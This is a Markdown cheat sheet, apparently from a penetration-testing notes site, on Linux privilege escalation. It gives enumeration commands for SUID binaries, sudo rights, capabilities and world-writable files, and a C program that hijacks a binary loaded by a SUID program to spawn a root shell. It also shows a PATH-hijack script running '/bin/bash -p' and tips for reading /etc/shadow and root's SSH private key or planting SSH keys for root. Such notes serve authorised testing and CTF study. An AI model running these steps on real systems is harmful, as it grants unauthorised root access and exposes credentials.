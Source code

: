 ```yaml
---
title: "Linux"
weight: 1
description: "Learn about various techniques and methods for privilege escalation on Linux system, including exploiting weak permissions, SUID, and more, with detailed notes and code examples."
---
```


# Linux Privilege Escalation


## Vulnerable program

Search scripts that execute programs. Search for **any vulnerable version**. One example: chkrootkit v0.49 (running as root)

```sh
ps aux
```

{{< hint style=notes >}}
**Note**: it's possible that another user (e.g., root) is running a cron job that executes a script periodically, which you may not be able to see. Therefore, it's crucial to identify and enumerate all potential programs that could be vulnerable.
{{< /hint >}}

---

## Weak Permissions

```sh
# World-writable files - Ex: maybe you can edit shadow file
find / -not -type l -perm -o+w
```

---

## Sudo

```sh
sudo -l
# Search on https://gtfobins.github.io/ how to exploit
```

---

## SUID 

Find all SUID binaries:
```bash
find / -perm -4000 2>/dev/null
```

**Well-known binary**

Search for the binary on [GTFOBins](https://gtfobins.github.io) to identify potential exploitation techniques.


**Custom binary**

Premise: you have `binary_name` (with suid) that use/load/execute `loaded_binary`

Extract strings from the binary – look for shared libraries or binaries being loaded / executed at runtime

```sh
strings binary_name
```

**(1) Method**

```sh
cp /bin/bash /path/to/loaded_binary
```

**(2) Method**

Delete the loaded binary and replace with a new one:

```c
#include <stdio.h>
#include <stdlib.h>

int main() {
    system("/bin/bash -i"); 
    return 0;
}
```

```sh
# Compile
gcc binary.c -o <loaded_binary>
# Run the binary
./binary_name
```

---

## Capabilities

Since Linux version 2.2, the system has divided the traditional superuser privileges into distinct units called capabilities \[[🔗](https://man7.org/linux/man-pages/man7/capabilities.7.html)]. These capabilities can be independently enabled or disabled, offering more fine-grained control over process privileges. However, if misconfigured, they can be exploited by an attacker to escalate privileges and gain root access.

```sh
/usr/sbin/getcap -r / 2>/dev/null
```

Search for the binary on [GTFOBins](https://gtfobins.github.io) to identify potential exploitation techniques.


---

## Email

Analyze the email for any sensitive information:

```bash
ls /var/mail
```


---

## Other

* `sudo -l`
  * setenv?
* SUID/GUID
* Look for capabilities
* History Files
* Docker group
* Cron jobs
* SSH Keys
* PATH
* NFS
* Writable /etc/shadow
* Writable /etc/passwd
* Are there scripts that use commands?
  * If the command is executed without full path you can modify PATH variable
  * `strings <program_name>`
  * you see `tail -f /var/log/nginx/access.log`
  * ```sh
    #!/bin/bash
    /bin/bash -p
    ```
  * `chmod +x /tmp/tail`
  * `export PATH=/tmp:$PATH`
  * `./<program_name>`
* Is there a database? Can I access to it?
  * Look at config file or source code of webpages connecting to db
* Look at the source code of the php,py,jsp ... files of the website
  * Especially login files. Any password?
* Writable authorized\_key folder?
  * generate new ssh keys
* Can I read some file with sudo?
  * /root/root.txt, /etc/shadow, /root/.ssh/id\_rsa
* Can I write a file in the root user directory?
  * generate ssh key with ssh-keygen and save it in the root user dir
* Kernel Exploits
* Linpeas.sh
* [GTFObins](https://gtfobins.github.io)
